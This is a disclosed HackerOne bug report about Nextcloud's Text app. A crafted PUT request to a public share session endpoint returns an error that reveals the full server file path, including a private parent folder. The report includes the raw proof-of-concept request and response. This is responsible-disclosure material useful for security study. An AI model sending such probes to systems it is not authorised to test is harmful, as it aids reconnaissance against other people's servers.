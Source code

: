 # Text app leaks file path of shared files

## Report Details
- **Report ID**: 1246721
- **URL**: https://hackerone.com/reports/1246721
- **State**: Closed
- **Severity**: low
- **Submitted**: 2021-06-28T17:37:05.283Z
- **Disclosed**: 2021-08-11T09:23:35.146Z

## Reporter
- **Username**: lukasreschkenc
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nextcloud

## Vulnerability Information
By sending a request for a share without a README.md, the whole file path will be returned to the user:

```
PUT /apps/text/public/session/create?token=EHTs4P7kATowiMg HTTP/1.1
Host: cloud.nextcloud.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:89.0) Gecko/20100101 Firefox/89.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json;charset=utf-8
Content-Length: 93
Origin: https://cloud.nextcloud.com
Te: trailers
Connection: close

{"filePath":"//Readme.md","token":"EHTs4P7kATowiMg","guestName":"Bean","forceRecreate":false}
```

```
HTTP/1.1 500 Internal Server Error
Date: Mon, 28 Jun 2021 17:33:58 GMT
Server: Apache/2.4.41 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Pragma: no-cache
Cache-Control: no-cache, no-store, must-revalidate
Content-Security-Policy: default-src 'none';base-uri 'none';manifest-src 'self';frame-ancestors 'none'
Feature-Policy: autoplay 'none';camera 'none';fullscreen 'none';geolocation 'none';microphone 'none';payment 'none'
X-Robots-Tag: none
Strict-Transport-Security: max-age=15768000; includeSubDomains; preload
Referrer-Policy: no-referrer
X-Content-Type-Options: nosniff
X-Download-Options: noopen
X-Frame-Options: SAMEORIGIN
X-Permitted-Cross-Domain-Policies: none
X-XSS-Protection: 1; mode=block
Content-Length: 49
Connection: close
Content-Type: application/json; charset=utf-8

"\/lukas\/files\/Private\/test-public\/Readme.md"
```

## Impact

Disclosure of the full file path. Here shared is "test-public" but it also states "Private" which is the parent folder.

## Attachments
No attachments
